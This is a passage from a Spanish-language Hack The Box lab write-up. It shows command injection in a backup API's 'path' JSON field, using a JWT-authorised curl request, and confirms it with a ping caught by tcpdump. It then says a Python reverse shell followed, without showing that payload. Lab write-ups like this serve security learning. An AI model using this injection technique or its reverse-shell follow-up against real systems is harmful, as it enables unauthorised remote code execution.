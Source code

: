```shell
$ curl -s -X POST http://api.mentorquotes.htb/admin/backup -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' -H 'Content-Type: application/json' --data '{"path": "test"}'| jq
{
  "INFO": "Done!"
}
```
¿Done?

# RCE
Después de probar un rato, supuse que estaba con tar, zip, 7z... lo que sea, ejecutando un comando a nivel de sistema donde se está pasando mi input, por lo cual, intenté ejecutar un comando.

```shell
$ curl -s -X POST http://api.mentorquotes.htb/admin/backup -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' -H 'Content-Type: application/json' --data '{"path": "asd; ping -c 1 10.10.14.80 #"}'| jq
{
  "INFO": "Done!"
}
```

```shell
$ sudo tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:40:50.193172 IP api.mentorquotes.htb > 10.10.14.80: ICMP echo request, id 6400, seq 0, length 64
23:40:50.193200 IP 10.10.14.80 > api.mentorquotes.htb: ICMP echo reply, id 6400, seq 0, length 64
```

Ahora solo queda mandarnos la reverse shell.
Después de probar los métodos comunes no pude mandar la revshell.
Así que como la máquina estaba corriendo `Flask` sabemos que tiene python, así que probé a mandarme la revshell con python.

Tuve que pasarme a `burpsuite` para escapar los caracteres correctamente, además, como es un contenedor, hay que mandar una `sh` y no una `bash`